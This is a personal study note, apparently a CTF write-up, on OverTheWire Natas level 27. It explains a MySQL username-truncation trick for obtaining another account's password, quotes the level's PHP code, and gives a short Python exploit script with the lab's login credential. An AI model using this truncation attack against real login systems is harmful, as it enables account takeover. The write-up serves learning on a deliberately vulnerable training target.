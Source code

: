 
2024-08-03 14:07

Source: #natas #web #py 

Tags: [[SQL injection]] [[PHP]]

> [!NOTE]
> ### aka SQL Buffer overflow 

we have a login page
Basically, this code will check if the user exists in the database and if you got the right password, it will display the password. If the user does not exists, it will be created in the database

- HTML entities is PHP's notion and attempt to secure things down, like remove all the HTML entities if you were to try and do like cross-site scripting or inject HTML elements or JavaScript code into an input field's

- `mysql_real_escape_string` function is another PHP mitigation function that will try and lock down or protect a lot of regular sequel injection techniques

```php
function dumpData($link,$usr){ 
     
    $user=mysql_real_escape_string($usr); 
     
    $query = "SELECT * from users where username='$user'"; 
    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            while ($row = mysql_fetch_assoc($res)) {  
                //return print_r($row); 
                return print_r($row,true); 
            } 
        } 
    } 
    return False; 
} 
```
it will return a number of rows and if it's greater than 0 we have multiple results, so what it does is it does this ==while loop== that it iterates through every single row (this is peculiar right?) because we only expected it to return one result like if there's only one user we're trying to login as a specific user that would probably just be one, but what if we are in the case if there are multiple results if there are multiple rows to look through

since the DB described has a 64 varchar size, we create a user named longer than the length that is setup.
we input a word with spaces that are more than 64 size and append some character in the end
the spaces are eventually truncated along with the character appended at the end 

we create a user named `"natas28" + " "*58 + "x"` and in the next request we ask for `natas28` and give the password that we used for our user. since MySQL will truncate the input to match the maximum field size. the server returns original natas28's password.  
##### In the old version of this level the above mentioned trick worked 
below is the code that works on the newer version 

```python
import requests
username = 'natas27'
password = 'u3RRffXjysjgwFU6b9xa23i6prmUsYne'

url = 'http://natas27.natas.labs.overthewire.org/'  
session = requests.session()

response = session.post(url, data = {"username": "natas28" + "\x00"*58 +"x", "password": "12" },auth =(username,password))

response = session.post(url, data = {"username": "natas28" , "password": "12" },auth =(username,password))
print(response.text)
```

### References

awesome explanation - [OverTheWire Wargames :: Natas :: Level 27 (n0j.github.io)](https://n0j.github.io/2017/07/20/otw-natas-27.html)

writeups with correct answers - 
https://github.com/timruff/overthewire/blob/main/natas/natas27/exploit.py
https://www.youtube.com/watch?v=87BKWwGEF1Q

writeups with incorrect answers - 
https://www.youtube.com/watch?v=Y7WXxmWKfxs
https://axcheron.github.io/writeups/otw/natas/
https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/

https://sqltest.net/ - we can just experiment with sequel database and a quick and easy way without spinning up a server.